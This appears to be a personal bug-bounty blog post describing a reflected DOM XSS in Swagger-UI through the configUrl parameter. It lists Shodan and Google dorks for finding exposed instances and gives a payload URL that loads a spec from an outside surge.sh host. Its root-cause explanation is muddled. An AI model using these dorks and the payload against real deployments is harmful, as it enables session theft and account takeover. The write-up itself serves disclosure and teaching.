 ```yaml
---
title: "My first Valid bug :Unveiling Cross-Site Scripting in Swagger-ui"
date: 2023-10-30
draft: false
series: "Bug Hunting"
tags: ["bug bounty hunting", "write-up"]
---
```


---

السَّلَامُ عَلَيْكُمْ و رحمة الله وبركاته

peace be upan you !

Welcome to my first write-up, where I share the exciting tale of my discovery and reporting of a simple yet impactful XSS bug in Swagger-ui.

so, lets go on and start with a short intro about the vulnerablity!

## Swagger-UI’s XSS :

Swagger-UI, a popular tool for designing, building, and documenting APIs, provides a user-friendly interface for developers to explore and interact with API endpoints. However, like any web application, Swagger-UI is not immune to security vulnerabilities.
and The root cause is that Swagger-UI allows users to provide a URL for an API specification, such as a YAML or JSON file in outdated version of DomPurify, an XML sanitizer library for HTML, MathML, and SVG. . To view and render them, you add a query parameter. It would be possible to trigger an XSS attack by loading a malicious!!

- for more about this vuln, please check the References !

### The Story Unfolds: The Journey Begins :sparkles: !!

so During my :mag_right: of the Swagger-ui application, that I found via shodan by using specific Dorks! Here are a few dorks that you can use to search in Shodan for Swagger-UI:

```
"Swagger-UI"
"Swagger-UI title:Swagger UI"
"Swagger-UI port:80"
"Swagger-UI http.component:swagger-ui"
"Swagger-UI http.favicon.hash:-116323821"

```

also u can use Google Dorks :

```
site:example.com intitle:"Swagger UI"
inurl:"swagger-ui.html"
intitle:"index of" swagger-ui
intext:"Powered by Swagger UI"
site:github.com inurl:swagger-ui
```

so ! I stumbled upon a potential XSS vulnerability. By appending a specific payloads to the Swagger UI URL, I was able to inject and execute arbitrary JavaScript code. The steps to reproduce the bug were as follows:

- Visit the Swagger UI URL:

```
 https://127.0.0.1/swagger/index.html.
```

- Append the following payload to the URL _ I used this payload as shown below _:

```
?configUrl=https://tearful-earth.surge.sh/test.json.
```

- The resulting URL should be:

```
 https://127.0.0.1/swagger/index.html?configUrl=https://tearful-earth.surge.sh/test.json.
```

![image tooltip here](https://github.com/khawla-abdulsattar/poison/blob/main/static/images/dhey.PNG?raw=true)

## Impact of Cross-Site Scripting:

Cross-site scripting attacks can have severe consequences and enable attackers to achieve various malicious goals. Some of the potential impacts include:

- Cookie Theft: Attackers can exploit XSS vulnerabilities to steal users' cookies, which may contain sensitive information such as session tokens or login credentials. With this information, the attacker can impersonate the victim and gain unauthorized access to their accounts.

- Local Storage Access: XSS can be used to access and extract data stored in the victim's local storage. This could include personal information, sensitive documents, or any other data stored by the web application.

- Keyloggers: Attackers can leverage XSS to inject keylogging scripts, enabling them to capture keystrokes made by users. This can lead to the theft of sensitive information, such as passwords or credit card details.

- Phishing Attacks: XSS vulnerabilities can be exploited to display convincing phishing forms or pop-ups to users, tricking them into revealing their credentials or other sensitive information.

---

As I conclude this article, I hope that my journey of uncovering an XSS bug has ignited a spark within you :sparkler: .
Whether you're a security professional or just starting your exploration of the web security realm, remember that every bug, no matter how small or seemingly insignificant, has the potential to make a significant impact.

###### thanks fot reading :)

## References :

- https://blog.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
- https://portswigger.net/daily-swig/widespread-swagger-ui-library-vulnerability-leads-to-dom-xss-attacks
